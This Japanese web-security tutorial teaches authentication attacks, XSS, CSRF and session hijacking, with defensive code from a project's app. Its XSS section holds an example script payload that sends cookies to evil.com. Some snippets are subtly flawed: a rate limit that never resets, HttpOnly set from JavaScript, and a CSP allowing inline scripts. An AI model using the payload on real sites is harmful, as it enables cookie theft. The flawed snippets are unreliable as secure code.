






# Web セキュリティの基礎

## 🎯 学習目標

- Web アプリケーションが直面する主要なセキュリティ脅威を理解する
- なぜ認証認可が重要なのかをセキュリティ観点から知る
- 実際の攻撃事例を通じてリスクを具体的にイメージできるようになる
- 基本的な防御策を理解する

## 🌐 Web アプリケーションのセキュリティリスク

### 🤔 なぜ Web アプリケーションは狙われるのか？



## ⚡ 主要なセキュリティ脅威

### 1. 🎣 認証回避攻撃

**正当なユーザーになりすましてシステムに侵入する攻撃**

#### パスワード攻撃の例



#### 実際の被害例
- **2019年 Capital One**: 1億人の個人情報漏洩
- **2017年 Equifax**: 1億4700万人の信用情報漏洩
- **2013年 Yahoo**: 30億アカウントの情報漏洩

#### 🛡️ 防御策
```typescript
// レート制限の例（私たちのプロジェクトより）
export function checkRateLimit(
  identifier: string,
  maxAttempts: number = 5,
  windowMs: number = 15 * 60 * 1000,
): boolean {
  const now = Date.now();
  const attempts = attemptCounts.get(identifier);

  // 制限回数を超えた場合はブロック
  if (attempts && attempts.count >= maxAttempts) {
    return false;
  }

  // 試行回数をカウント
  if (!attempts) {
    attemptCounts.set(identifier, { count: 1, lastAttempt: now });
  } else {
    attempts.count++;
    attempts.lastAttempt = now;
  }

  return true;
}
```

### 2. 💉 XSS（クロスサイトスクリプティング）攻撃

**悪意のあるスクリプトを Web ページに埋め込む攻撃**

#### 攻撃の流れ



#### 実際の被害例

```html
<!-- ❌ 危険な例：ユーザー入力をそのまま表示 -->
<div>こんにちは、{{userName}}さん</div>

<!-- 攻撃者が userName に以下を入力した場合 -->
<!-- <script>document.location='http://evil.com?cookie='+document.cookie</script> -->

<!-- 結果：被害者のCookie が攻撃者に送信される -->
```

#### 🛡️ 防御策

```typescript
// 入力値のサニタイズ（私たちのプロジェクトより）
export function sanitizeString(input: string): string {
  if (typeof input !== "string") return "";

  return input
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#x27;")
    .replace(/\//g, "&#x2F;")
    .trim();
}
```

### 3. 🎯 CSRF（クロスサイトリクエストフォージェリ）攻撃

**ユーザーが意図しない操作を強制的に実行させる攻撃**

#### 攻撃の流れ



#### 🛡️ 防御策

```typescript
// CSRF トークンの例
export function generateCSRFToken(): string {
  return crypto.randomUUID();
}

// リクエスト時にトークンを検証
export function validateCSRFToken(
  requestToken: string, 
  sessionToken: string
): boolean {
  return requestToken === sessionToken;
}
```

### 4. 🔓 セッションハイジャック

**他人のセッションを乗っ取る攻撃**

#### 攻撃パターン



#### 🛡️ 防御策

```typescript
// 安全な Cookie 設定（私たちのプロジェクトより）
export function setAuthCookie(name: string, value: string) {
  const cookieValue = [
    `${name}=${encodeURIComponent(value)}`,
    'HttpOnly',           // JavaScript からアクセス不可
    'Secure',             // HTTPS 必須
    'SameSite=Strict',    // CSRF 攻撃対策
    'Path=/',
    `Max-Age=${24 * 60 * 60}` // 24時間で期限切れ
  ].join('; ');

  document.cookie = cookieValue;
}
```

## 🛡️ 多層防御の考え方

Web セキュリティは「一つの対策では不十分」です。複数の防御策を組み合わせます。



## 🎯 バケットリストアプリでの実装例

私たちのプロジェクトでどのようにセキュリティ対策を実装しているかを見てみましょう：

### 🔐 認証レベルの対策

```typescript
// app/features/auth/lib/auth-context.tsx より
const signIn = async (email: string, password: string) => {
  try {
    // 1. 入力値検証
    if (!email || !password) {
      return { error: { message: "メールアドレスとパスワードは必須です" } };
    }

    // 2. メールアドレス形式チェック
    const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
    if (!emailRegex.test(email)) {
      return { error: { message: "メールアドレスの形式が正しくありません" } };
    }

    // 3. 安全な認証処理
    const { error } = await supabase.auth.signInWithPassword({
      email: email.toLowerCase().trim(),
      password,
    });

    return { error };
  } catch (error) {
    console.error("Unexpected sign in error:", error);
    return { error: { message: "予期しないエラーが発生しました" } };
  }
};
```

### 🛡️ セッション管理レベルの対策

```typescript
// app/features/auth/lib/auth-context.tsx より
// セッション検証
const validateSession = useCallback((session: Session | null): boolean => {
  if (!session) return false;

  // JWT の有効期限チェック
  const now = Math.floor(Date.now() / 1000);
  if (session.expires_at && session.expires_at < now) {
    console.warn("Session expired");
    return false;
  }

  // ユーザー情報の整合性チェック
  if (!session.user || !session.user.id || !session.user.email) {
    console.warn("Invalid user data in session");
    return false;
  }

  return true;
}, []);

// アクティビティ監視
useEffect(() => {
  if (!session || typeof window === "undefined") return;

  const checkInactivity = () => {
    const now = new Date();
    const timeSinceLastActivity = now.getTime() - lastActivity.getTime();
    const maxInactivity = 30 * 60 * 1000; // 30分

    if (timeSinceLastActivity > maxInactivity) {
      signOut(); // 自動ログアウト
    }
  };

  const inactivityCheck = setInterval(checkInactivity, 5 * 60 * 1000);
  return () => clearInterval(inactivityCheck);
}, [session, lastActivity]);
```

### 🚧 インフラレベルの対策

```typescript
// app/lib/security-utils.ts より
// CSP（Content Security Policy）設定
export const setupCSP = () => {
  const csp = [
    "default-src 'self'",
    "script-src 'self' 'unsafe-inline'",
    "style-src 'self' 'unsafe-inline' fonts.googleapis.com",
    "img-src 'self' data: https:",
    "font-src 'self' fonts.gstatic.com",
    "connect-src 'self' https://*.supabase.co wss://*.supabase.co",
    "object-src 'none'",
    "base-uri 'self'",
    "form-action 'self'",
    "frame-ancestors 'none'",
  ].join("; ");

  const meta = document.createElement("meta");
  meta.httpEquiv = "Content-Security-Policy";
  meta.content = csp;
  document.head.appendChild(meta);
};
```

## 📊 セキュリティ対策の優先順位

すべてを一度に実装するのは大変なので、優先順位をつけて段階的に対策しましょう：

### 🔴 高優先度（必須）
1. **HTTPS 通信**: すべての通信を暗号化
2. **入力値検証**: XSS・SQLインジェクション対策
3. **認証・認可**: 正しい実装
4. **セキュアな Cookie 設定**: セッションハイジャック対策

### 🟡 中優先度（推奨）
1. **レート制限**: ブルートフォース攻撃対策
2. **CSP 設定**: XSS 攻撃の影響軽減
3. **ログ・監視**: 攻撃の早期発見
4. **定期的なセキュリティ更新**: 脆弱性対策

### 🟢 低優先度（できれば）
1. **多要素認証**: 追加のセキュリティ層
2. **セキュリティヘッダー**: 追加の防御策
3. **ペネトレーションテスト**: 定期的なセキュリティ評価

## 🎯 重要なポイント

### ✅ 覚えておくべきこと

1. **セキュリティは継続的なプロセス**: 一度設定すれば終わりではない
2. **ユーザー教育も重要**: 技術的対策だけでは不十分
3. **バランスが大切**: セキュリティとユーザビリティのバランス
4. **最新情報のキャッチアップ**: 新しい脅威と対策を常に学習

### 🚨 気をつけること

- セキュリティ対策は「見えない効果」のため軽視されがち
- 「うちは小さいから狙われない」は危険な思い込み
- 完璧なセキュリティは存在しない（リスクを下げることが目標）

## 🚀 次のステップ

Web セキュリティの基礎が理解できたら、**Level 2: 認証の実装** に進みましょう。

実際のコードを使って、セキュアな認証システムがどのように動作するかを詳しく学びます。

次のレベルでは：
- JWT トークンの詳細な仕組み
- セッション管理の実装方法
- パスワードの安全な取り扱い
- ログインフローの詳細な実装

など、より技術的で実践的な内容を学習します。